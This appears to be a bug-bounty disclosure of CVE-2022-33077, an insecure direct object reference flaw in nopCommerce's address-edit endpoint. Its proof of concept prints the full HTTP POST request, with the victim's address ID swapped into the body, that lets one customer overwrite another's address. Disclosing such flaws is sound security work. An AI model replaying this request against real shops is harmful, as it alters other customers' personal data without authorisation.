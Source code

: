 ```yaml
---
tags: bugbounty
category: BugBounty
---
```


# Description

There is an access control vulnerability affecting nopCommerce (≤ 4.50.2) and also affecting the upcoming beta version (4.60). The vulnerability lies in the “addressedit” endpoint, and a malicious customer can modify addresses of other users on the site. This has been assigned CVE-2022–33077.

# Proof of concept

1. Register 2 customers (C1 and C2) and add addresses (A1 and A2) for both of them respectively. Note down the address Id of both the created addresses (let it be A1_ID and A2_ID). We will now login as C1 and modify A2.
2. Login as C1 and capture the POST request to edit your address as shown below. I’ve highlighted 4 parameters that you need to replace.

    ```
    POST /customer/addressedit/<A1_ID> HTTP/2
    Host: localhost
    Cookie: <C1_Session_Cookies_Here>
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:100.0) Gecko/20100101 Firefox/100.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 506
    Origin: http://localhost
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: iframe
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Address.Id=<A2_ID>&Address.FirstName=testing&Address.LastName=123&Address.Email=hello@hello.lcom&Address.Company=&Address.CountryId=211&Address.StateProvinceId=0&Address.City=sdv&Address.Address1=dsv&Address.Address2=&Address.ZipPostalCode=sdv&Address.PhoneNumber=12&Address.FaxNumber=&__RequestVerificationToken=<C1_CSRF_TOKEN_HERE>
    ```
3. Upon firing the above request with C1’s session tokens, the address of C2 will be updated. First the server is checking whether the addressID in the URL belongs to the Session token provided in the cookies, and then it is simply updating the address ID inside the POST request body. Logically, it should only update what it validates.

## Video POC
[![nopCommerce IDOR POC](https://img.youtube.com/vi/ccZxLXVdef0/0.jpg)](https://www.youtube.com/watch?v=ccZxLXVdef0)